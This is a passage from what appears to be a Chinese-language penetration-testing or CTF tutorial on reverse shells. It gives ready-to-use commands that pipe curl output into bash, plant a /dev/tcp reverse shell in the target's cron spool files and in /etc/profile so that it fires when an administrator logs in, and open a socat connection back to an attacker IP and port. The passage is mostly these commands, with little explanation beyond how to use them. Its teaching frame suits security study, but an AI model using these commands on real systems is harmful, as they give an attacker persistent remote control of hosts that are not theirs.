 执行效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3N7gfUQRMqQP5BHK9P4iaqEhsxWmibeFJWudmuwogZ1WZN3r8FfXx7YV0g/640?wx_fmt=png)

根据 curl 命令和 Linux 管道的作用，你不难理解这其中的原理。

Curl 配合 Bash 反弹 shell 的方式在 CTF 题目中经常出现，`curl IP|bash` 中的 IP 可以是任意格式的，可以是十进制、十六进制、八进制、二进制等等。

### 将反弹 shell 的命令写入定时任务

我们可以在目标主机的定时任务文件中写入一个反弹 shell 的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹 shell 命令是要写在 `/var/spool/cron/[crontabs]/<username>` 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

比如，当前用户名为 root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos 系列主机)

比如，当前用户名为 root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu 系列主机)

```
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/47.xxx.xxx.72/2333 0>&1#每隔一分钟，向47.xxx.xxx.72的2333号端口发送shell
```

### 将反弹 shell 的命令写入 / etc/profile 文件

将以下反弹 shell 的命写入 / etc/profile 文件中，/etc/profile 中的内容会在用户打开 bash 窗口时执行。

```
/bin/bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 &# 最后面那个&为的是防止管理员无法输入命令
```

image-20210127221718744

当目标主机管理员远程连接该主机时，就会执行该命令，成功获得目标机的 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NIUqPAYntib7ZkxT6UKWSPytQib2ITUppNBw3uGrMxQnG7AU04PHhxN3A/640?wx_fmt=png)

利用 Socat 反弹 shell
-----------------

Socat 是 Linux 下一个多功能的网络工具，名字来由是”Socket CAT”，因此可以看出它是基于 socket 的，其功能与 netcat 类似，不过据说可以看做 netcat 的加强版，事实上的确也是如此。我这里只简单的介绍下怎么使用它开启监听和反弹 shell，其他详细内容可以参见这里：http://brieflyx.me/2015/linux-tools/socat-introduction/

安装 Socat 的方法很简单：

•Ubuntu 等可以直接使用 `apt-get install socat` 命令进行安装 • 也可以去官网下载源码包：http://www.dest-unreach.org/socat

**攻击机开启本地监听：**

```
socat TCP-LISTEN:2333 -或nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
socat tcp-connect:47.xxx.xxx.72:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

执行效果如下：
